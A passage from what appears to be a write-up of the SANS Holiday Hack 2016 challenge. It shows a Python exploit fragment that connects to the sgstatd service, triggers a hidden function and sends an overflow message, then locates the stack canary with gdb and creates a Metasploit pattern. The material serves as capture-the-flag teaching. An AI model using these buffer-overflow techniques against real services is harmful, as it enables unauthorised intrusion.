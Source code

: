 ```
#    s.connect(('54.233.105.81', 4242))  # SG-5

    response = s.recv(1024)
    print response
    time.sleep(1)
    response = s.recv(1024)
    print response
    print '---'
    
    time.sleep(1)
	
    response = ''
    print "SENDING X"
    s.send('X')  # Triggering hidden function
    s.send('\n')
    while (len(response) &gt; 50 and response[-2:] != '\n\n'):
        print 'waiting for full response'
        time.sleep(1)
        response = response + s.recv(1024)
    print response
    
    # Constructing the message
    msg = 'A' * 200

    print "SENDING msg"
    time.sleep(1)
    s.send(msg)
    s.send('\n')
    print "SENT msg"

    s.close()
    print '\n\nDONE'
    
except:
    print 'except'
{% endhighlight %}

In order to determine where the canary value bytes would have to be placed within the message, the ```sgstatd``` program was run with ```gdb```. The first step would be to find the location of the canary value *prior* to any memory manipulation having taken place. To do so, a suitable breakpoint had to be identified, and I chose one just before the message would be processed by ```sgnet_readn()```:

<figure>
	<a href="/images/2016-01-sans/4n.png"><img src="/images/2016-01-sans/4n.png"></a>
</figure>

```xpl.py``` was started on the attacking system, and when the breakpoint was reached, I searched the memory for the four bytes representing the canary value. They were located at ```0xBFFFF064```:

<figure>
	<a href="/images/2016-01-sans/5n.png"><img src="/images/2016-01-sans/5n.png"></a>
</figure>

The next step was to figure out which part of the 200 character long message would be placed at this memory location. A 200 character long pattern was created on the attacking system:

```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

[img1]: /images/2016-01-sans/
